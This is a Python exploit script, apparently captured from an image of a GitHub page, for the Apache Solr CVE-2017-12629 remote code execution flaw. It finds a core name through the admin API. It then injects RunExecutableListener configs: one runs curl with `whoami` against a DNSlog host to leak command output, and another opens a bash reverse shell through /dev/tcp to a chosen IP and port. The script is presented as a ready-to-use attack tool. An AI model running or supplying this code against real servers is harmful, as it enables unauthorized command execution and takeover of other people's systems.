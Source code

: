 ```python
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Solr < 7.1                                        \033[0m')
    print('+  \033[36m使用格式: python3 cve-2017-12629.py                                 \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983                            \033[0m')
    print('+  \033[36mcmd    >>> dnslog地址(漏洞外连检测)                                  \033[0m')
    print('+  \033[36mCmd    >>> shell(反弹shell)                                        \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name, dnslog_url, n):
    exp_url = target_url + "/solr/" + core_name + "/config"
    dnslog_url = "`whoami`." + dnslog_url
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    payload_cmd = """
    {"add-listener":{"event":"postCommit","name":"newSearche-%s","class":"solr.RunExecutableListener","exe":"curl","dir":"/usr/bin/","args":["%s"]}}
    """ % (n, dnslog_url)

    response = requests.request("POST", url=exp_url, headers=headers, data=payload_cmd, timeout=30)
    if "add-listener" in response.text:
        print("\033[32m[o] 成功执行，请查看dnslog \033[0m")
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

def POC_3(target_url, core_name, n, ip, port):
    exp_url = target_url + "/solr/" + core_name + "/config"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    payload_cmd = """
        {"add-listener":{"event":"postCommit","name":"newSearche-%s","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c","bash -i >& /dev/tcp/%s/%s 0>&1"]}}
        """ % (n, ip, port)

    response = requests.request("POST", url=exp_url, headers=headers, data=payload_cmd, timeout=30)
    if "add-listener" in response.text:
        print("\033[32m[o] 成功执行 \033[0m")
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)
```